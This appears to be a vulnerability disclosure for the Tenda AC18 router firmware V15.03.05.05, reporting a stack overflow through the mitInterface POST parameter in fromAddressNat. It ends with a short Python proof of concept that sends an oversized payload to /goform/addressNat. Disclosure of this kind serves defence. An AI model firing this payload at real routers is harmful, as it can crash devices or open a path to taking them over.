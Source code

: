 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v8` variable receives the `mitInterface` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `mitInterface` can trigger this security vulnerability.

![image-20240305210732094](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210732094.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"mitInterface": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305210435303](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210435303.png)
